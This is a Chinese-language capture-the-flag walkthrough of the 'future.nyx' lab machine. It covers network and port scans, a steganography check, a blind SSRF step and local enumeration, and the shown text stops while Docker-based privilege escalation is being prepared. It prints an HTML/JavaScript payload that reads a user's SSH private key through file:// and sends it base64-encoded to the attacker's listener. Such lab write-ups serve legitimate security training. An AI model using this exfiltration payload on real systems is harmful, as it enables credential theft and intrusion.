## 网段扫描
```
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:df:e2:a7, IPv4: 192.168.26.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.26.1    00:50:56:c0:00:08       VMware, Inc.
192.168.26.2    00:50:56:e8:d4:e1       VMware, Inc.
192.168.26.180  00:0c:29:65:c7:65       VMware, Inc.
192.168.26.254  00:50:56:ff:4b:3d       VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.298 seconds (111.40 hosts/sec). 4 responded
```

## 端口扫描

```
└─# nmap -p- -sC -sV 192.168.26.180       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-19 09:05 EST
Nmap scan report for 192.168.26.180 (192.168.26.180)
Host is up (0.0014s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 65:bb:ae:ef:71:d4:b5:c5:8f:e7:ee:dc:0b:27:46:c2 (ECDSA)
|_  256 ea:c8:da:c8:92:71:d8:8e:08:47:c0:66:e0:57:46:49 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: future.nyx
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 00:0C:29:65:C7:65 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.46 seconds
```

## 获取Webshell
>端口扫描出现域名，加一下
>

  

>无子域名，但是目录存在大量页面
>
  
  
  
  
  

>查看图片隐写
>

```
                                                                                                                                                                                                                
┌──(root㉿LingMj)-[/home/lingmj/xxoo]
└─# strings -n 13 rf.png
%tEXtdate:create
2024-03-23T12:08:13+00:00
%tEXtdate:modify
2024-03-23T12:08:12+00:00
(tEXtdate:timestamp
2024-03-23T12:08:13+00:00;
|~y~~~y~~}~~]
/....7/.6/.6/7
x|||z|||x|xx|
||xxx||||z|z|Z
uy|x|8>=>=>><
'r ?6$Jwe6~14vb
WBsKaj3vw'RSS#"
)RkPs7H1baA"h
KN)NOZ5<@5}}}
|~~~y~yz~~y~z^
J{yy}}9_>mAl%b*
qcwGWs@w000DB
p>?>====<<><===
P1IFEU;* Voff
.2$3CrR`tV`Dd
S$"DT /HQ?jmk
ttsNK>=U:yL.2S
"fZJy~~~yy]R^sJ
BP1eQf)%%6#3-%
9!1 R"^S)Eo[Q
m[?a9gq#rfgh@H@fAI+`r
>}z~~~~~N)3oZk
e%Dd@34E0BdDN
uqH7'Jy~|xx||xx<>>
}}}}y}yyy}y}}}=
2Wx~wy~~~wxJ9
e-k`{6!b@J)"A
TTS=9   j.]53Nd
        '&$rnlb"f@2@
 #k'jDD`$R34%
#j!FQF"1#&Slk
33'W3t&0C#$bd
`e403&ED%C".N
D4%STi0nA4f*\&nx]
((9s(@b&>LS`&
6nL'bjufp-?7_o?
az~yV1e?|qJr9/1
ey~y~~y~y~~}y
G#$`"vvW5DsB53
e#sutG)eSWsUZ
7p0WrrwNx|zy9
10QbJ`$-zUPRB
J5"e2u\phqllo
SP#s4u%Ec3+h.ZJ
eyz~z~zzzz^sfb5
ey}]_^^^^^J)"HD
?fI9??===?=?=-
$IlL*btR)r' Q
Zk)EK1SuG       ~#m
`f0IVer&.,"Vm8>}
.hfb];CEhtY6'
                                                                                                                                                                                                                
┌──(root㉿LingMj)-[/home/lingmj/xxoo]
└─# stegseek rf.png     
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[!] error: the file format of the file "rf.png" is not supported.
                                                                                                                                                                                                                
┌──(root㉿LingMj)-[/home/lingmj/xxoo]
└─# exiftool rf.png
ExifTool Version Number         : 12.76
File Name                       : rf.png
Directory                       : .
File Size                       : 5.6 MB
File Modification Date/Time     : 2024:03:23 08:08:27-04:00
File Access Date/Time           : 2025:01:19 09:26:44-05:00
File Inode Change Date/Time     : 2025:01:19 09:26:37-05:00
File Permissions                : -rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 3840
Image Height                    : 2160
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
White Point X                   : 0.3127
White Point Y                   : 0.329
Red X                           : 0.64
Red Y                           : 0.33
Green X                         : 0.3
Green Y                         : 0.6
Blue X                          : 0.15
Blue Y                          : 0.06
Background Color                : 255 255 255
Datecreate                      : 2024-03-23T12:08:13+00:00
Datemodify                      : 2024-03-23T12:08:12+00:00
Datetimestamp                   : 2024-03-23T12:08:13+00:00
Exif Byte Order                 : Big-endian (Motorola, MM)
Orientation                     : Horizontal (normal)
X Resolution                    : 72
Y Resolution                    : 72
Resolution Unit                 : inches
Y Cb Cr Positioning             : Centered
Image Size                      : 3840x2160
Megapixels                      : 8.3
```

>没看出什么，继续其他目录
>

  
  
  
  
  

>找到利用点
>
  
  
  
  
  
  
  

>不懂了，但是这个page很神奇，告诉我们用户私钥位置
>
```
└─# cat cat a.html                  
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///home/marty.mcfly/.ssh/id_rsa", true);
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://192.168.26.128:4444/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>
```
  
  

  

>牛逼，这个是真厉害，不过好像透题了，这个靶场
>

  

  

>跑一下密码,不过大概率无果
>

  

>爆破不出来，看一下思路他是html设计字典爆破
>
  
  

>这个用户名是真厉害
>
  

```
marty.mcfly@future:~$ sudo -l
[sudo] password for marty.mcfly: 
Sorry, try again.
[sudo] password for marty.mcfly: 
sudo: 1 incorrect password attempt
marty.mcfly@future:~$ id
uid=1000(marty.mcfly) gid=1000(marty.mcfly) groups=1000(marty.mcfly)
```

>无sudo -l
>

```
marty.mcfly@future:/home$ ls
emmett.brown  marty.mcfly
marty.mcfly@future:/home$ cd emmett.brown/
marty.mcfly@future:/home/emmett.brown$ ls -al
total 20
drwxr-xr-x 2 emmett.brown emmett.brown 4096 Mar 23  2024 .
drwxr-xr-x 4 root         root         4096 Mar 23  2024 ..
lrwxrwxrwx 1 root         root            9 Mar 23  2024 .bash_history -> /dev/null
-rw-r--r-- 1 emmett.brown emmett.brown  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 emmett.brown emmett.brown 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 emmett.brown emmett.brown  807 Apr 23  2023 .profile
marty.mcfly@future:/home/emmett.brown$ cd /opt/
marty.mcfly@future:/opt$ ls
marty.mcfly@future:/opt$ ls -al
total 8
drwxr-xr-x  2 root root 4096 Feb 12  2024 .
drwxr-xr-x 18 root root 4096 Feb 12  2024 ..
marty.mcfly@future:/opt$ cd /var/backups/
marty.mcfly@future:/var/backups$ ls -al
total 32
drwxr-xr-x  2 root root  4096 Mar 26  2024 .
drwxr-xr-x 12 root root  4096 Mar 23  2024 ..
-rw-r--r--  1 root root 11183 Mar 24  2024 apt.extended_states.0
-rw-r--r--  1 root root  1259 Mar 23  2024 apt.extended_states.1.gz
-rw-r--r--  1 root root  1203 Mar 23  2024 apt.extended_states.2.gz
-rw-r--r--  1 root root   622 Feb 12  2024 apt.extended_states.3.gz
marty.mcfly@future:/var/backups$ 
```

  

>没思路就跑脚本吧
>
  

  

>有docker开着
>
  

  

>
>ok大概知道怎么提权了

  
  

  
>没有image开着,难受只能去下载拉取
>
  
